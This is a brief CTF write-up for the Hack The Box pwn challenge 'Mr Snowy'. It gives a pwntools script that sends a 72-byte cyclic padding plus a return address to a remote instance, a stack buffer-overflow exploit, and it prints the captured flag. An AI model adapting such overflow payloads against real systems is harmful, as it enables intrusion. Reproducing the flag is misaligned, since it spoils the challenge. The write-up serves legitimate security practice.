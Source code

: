 # Mr Snowy

- Download and install pwntools
https://github.com/Gallopsled/pwntools


- Start docker instance, modify this script:

```python3
#!/bin/python3

from pwn import *

EXECUTABLE = './mr_snowy'
context.binary = EXECUTABLE
#p = process(EXECUTABLE, stdout=PTY, stdin=PTY)
p = remote('138.68.133.230', 30554)
p.recvuntil(b'> ')
p.sendline(b'1')
p.recvuntil(b'> ')

address = int(0x00401165)
payload = cyclic(72)
payload += p64(address)

p.sendline(payload)
p.recvline()
print(p.recvall())

```


Flag: `HTB{n1c3_try_3lv35_but_n0t_g00d_3n0ugh}`